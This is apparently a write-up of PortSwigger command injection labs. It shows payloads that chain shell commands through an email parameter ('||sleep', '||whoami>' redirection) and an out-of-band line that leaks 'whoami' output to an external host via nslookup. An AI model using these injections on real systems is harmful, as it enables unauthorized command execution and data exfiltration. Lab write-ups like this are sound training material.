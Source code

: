 # Portswigger Writeups

## Lab 1: Simple Case

Very simple. Check stock is vulnerable:

![](../../.gitbook/assets/portswigger-commandinjection-writeup-image.png)

## Lab 2: Time Delay via Sleep

To solve, cause a 10 second delay. There is a 'Submit feedback' function.

![](../../.gitbook/assets/portswigger-commandinjection-writeup-image-1.png)

Test each parameter, and find that using the concat function `||` works with the `email` parameter. 

`email=test@test.com||sleep+10

## Lab 3: Output Redirection

Blind OS command execution, and response is not returned. To solve, execute `whoami` and retrieve output. 

This lab gives us a writeable directory at `/var/www/images`. Pretty straightforward.

Abusing the `email` parameter again, just do `||whoami>/var/www/images/test.txt`. When the home page is loaded, I saw that it uses a `filename` parameter:

![](../../.gitbook/assets/portswigger-commandinjection-writeup-image-2.png)

Using this, change it to `filename=test.txt` to solve the lab. 

## Lab 4: Out of Band Interaction

This is pretty simple. One can use `curl` or `wget` to trigger a response to an external server. Since the lab requires a DNS lookup to be done, use `nslookup`.

`email=x||nslookup+burp.URL||`

## Lab 5: Out of Band Exfiltration

One can use a template literal \` to solve this.

```
email=test||nslookup+`whoami`.URL||`
```
